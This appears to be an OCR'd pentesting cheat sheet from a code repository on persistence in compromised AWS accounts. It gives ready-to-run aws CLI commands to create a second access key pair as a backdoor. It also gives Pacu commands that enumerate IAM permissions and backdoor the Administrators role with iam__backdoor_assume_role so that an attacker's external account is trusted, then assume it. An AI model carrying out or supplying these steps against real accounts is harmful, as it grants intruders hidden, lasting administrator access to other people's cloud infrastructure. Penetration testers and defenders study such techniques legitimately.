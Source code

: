 # Persistence
## Index
* [Backdoor account](#Authentication)
* [Outside entity Trust relationships](#Trust-relationships)


## Backdoor account
- Each account can have two access keys
#### List access keys
```
aws iam list-access-keys --user-name <username>
```

#### Create second pair of access keys
```
aws iam create-access-key --user-name <username>
```

## Trust relationships
- Can create a trust relationship with an entity OUTSIDE of an AWS account. (cross account persistence)

#### Run pacu
```
sudo python3 cli.py
import_keys <AWS PROFILE NAME>
```

#### Run the enumeration modules
```
run iam__enum_users_roles_policies_groups
run iam__enum_permissions
whoami
```

#### Find ARN of external AWS account
```
sudo aws sts get-caller-identity
```

#### Backdoor the role
-  Pacu has a module that backdoors IAM roles called iam__backdoor_assume_role
```
run iam__backdoor_assume_role
run iam__backdoor_assume_role --role-names Administrators --user-arns <full ARN of your external account>
```

### Use A external AWS account backdoor
#### Get ARN of role
```
sudo aws iam get-role --role-name <ADMIN> --profile <PROFILE>
```

#### Create backdoor
```
sudo aws sts assume-role --role-arn <Full ARN of Backdoored Role> --role-session-name persist --profile <personal AWS account profile>
```
